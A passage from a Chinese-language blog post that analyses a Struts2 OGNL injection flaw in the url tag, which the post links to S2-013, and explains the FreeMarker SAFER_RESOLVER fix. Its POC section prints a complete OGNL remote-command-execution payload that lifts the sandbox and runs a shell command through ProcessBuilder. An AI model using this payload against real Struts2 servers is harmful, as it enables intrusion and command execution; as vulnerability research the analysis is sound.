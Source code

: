 ![image-20200522111238176](/images/talk_about_struts2/image-20200522111238176.png)

因为这里我们时url标签，所以由`org.apache.struts2.components.URL#start`来处理

![image-20200522111315111](/images/talk_about_struts2/image-20200522111315111.png)

回到了由`ServletUrlRenderer`来解析我们传入的OGNL表达式，跟S2-013一样，后续也是由`TextParseUtil.translateVariables`触发的

### POC

poc可以直接用S2-045的poc

```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
// 记得编码
```

### 修复

> 这次的修复是在FreemarkerManager中多了两行代码，
>
> ```
>  LOG.debug("Sets NewBuiltinClassResolver to TemplateClassResolver.SAFER_RESOLVER", new String[0]);
> configuration.setNewBuiltinClassResolver(TemplateClassResolver.SAFER_RESOLVER);
> ```
>
> 去看了一下TemplateClassResolver.SAFER_RESOLVER)的官方文档，
>
> ```
> TemplateClassResolver.SAFER_RESOLVER now disallows creating freemarker.template.utility.JythonRuntime and freemarker.template.utility.Execute. This change affects the behavior of the new built-in if FreeMarker was configured to use SAFER_RESOLVER, which is not the default until 2.4 and is hence improbable.
> ```
>
> 大致意思应该就是禁止了freemarker的RCE，具体我对freemarker不太了解，就不去误人子弟了。
